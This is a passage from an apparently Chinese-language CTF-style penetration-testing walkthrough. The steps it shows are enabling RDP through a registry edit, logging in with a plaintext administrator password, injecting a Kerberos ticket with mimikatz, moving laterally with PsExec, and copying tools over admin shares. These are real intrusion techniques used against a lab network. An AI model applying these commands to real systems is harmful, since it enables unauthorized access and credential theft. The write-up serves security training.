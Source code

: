 开启3389端口

```sh
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

远程桌面连接192.168.51.33，之前得到的凭据：

`administrator/jason@123`

![image-20220528130118000000-1656056184004160.png](img/中小型企业环境网络安全渗透赛 local/6f07128a0221608ce36467382d047882.png)

把生成的票据和mimikatz上传的192.168.51.33的c盘根目录（mimikatz上文已传过了），直接将对应文件复制粘贴即可。

![image-20220531115040000000-1656056185693268.png](img/中小型企业环境网络安全渗透赛 local/ad4e0f63b3905d46476aea2b216a7940.png)

```
#在192.168.51.33中以管理员权限运行mimikatz执行如下命令
kerberos::ptc administrator.ccache
```

![image-20220528130138000000-1656056187405172.png](img/中小型企业环境网络安全渗透赛 local/d39a2326fd635e9e66a689820032091f.png)

把PSTools文件夹里的psexec.exe上传到192.168.51.33，位置：

`C:\Users\Administrator\Desktop\工具\内网渗透\PSTools\PsExec.exe`

执行:

```
PsExec.exe \\KEVIN.bj.jyj.com cmd
```

命令执行后会弹出提示框，agree即可

![image-20220531133930000000-1656056189072816.png](img/中小型企业环境网络安全渗透赛 local/56e91aa5024a262b4fc32185d0d80396.png)

成功获取到KEVIN主机权限

![image-20220528130146000000-1656056190711040.png](img/中小型企业环境网络安全渗透赛 local/662f331c9327e9de42911779c1250450.png)

KEVIN主机的flag文件位置：`c:\users\kevin\desktop\flag.txt`

```
flag{B719-1F1D-4CE7-E019-2E6B-EDAC-CB35-87FB}
```

由于部分工具已经上传到192.168.51.33机器上，现在只需要用文件共享将工具copy到192.168.51.44上即可

```
#刚刚的PsExec横向的shell执行
net use \\192.168.51.33\C$ jason@123 /user:localhost\administrator
net use
```

![image-20220528130156000000-1656056192351919.png](img/中小型企业环境网络安全渗透赛 local/27dd25b8b6dcac62c4e902166d6918d6.png)

```
copy \\192.168.51.33\c$\mimikatz.exe c:\mimikatz.exe
```

